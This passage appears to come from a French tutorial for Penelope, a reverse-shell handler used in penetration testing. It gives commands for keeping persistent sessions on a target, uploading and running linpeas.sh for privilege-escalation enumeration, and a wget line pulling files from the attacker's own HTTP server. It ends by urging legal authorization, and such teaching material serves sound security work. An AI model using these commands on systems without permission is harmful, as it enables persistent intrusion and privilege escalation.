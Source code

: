 ### 📋 Scénarios d’Utilisation

***

#### Exemple 1 : Maintenir un Accès Constant à une Machine

Si vous souhaitez maintenir deux sessions actives avec une machine cible pour éviter toute perte d'accès, utilisez la commande suivante :

```bash
python3 penelope.py --maintain 2
```

Penelope régénérera automatiquement une nouvelle session si une des connexions est interrompue.

***

#### Exemple 2 : Exécuter des Scripts de Post-Exploitation

**a) Uploader un script de post-exploitation**

```bash
upload linpeas.sh /tmp
```

**b) Exécuter le script sur la machine cible**

```bash
run /tmp/linpeas.sh
```

* **Explication** :
  * `linpeas.sh` est un script d’énumération populaire pour identifier des failles ou des privilèges à exploiter.

***

#### Exemple 3 : Partager des Fichiers via le Serveur HTTP Intégré

1.  **Démarrer le serveur HTTP** sur votre machine :

    ```bash
    python3 penelope.py -s --port 8080
    ```
2.  **Télécharger le fichier depuis la cible** : Sur la machine cible, exécutez :

    ```bash
    wget http://<your_ip>:8080/file_to_download
    ```

***

### 📖 Bonnes Pratiques

#### 1. Obtenir des Autorisations Légales

* Assurez-vous toujours d’avoir une autorisation explicite pour tester ou accéder à un système.
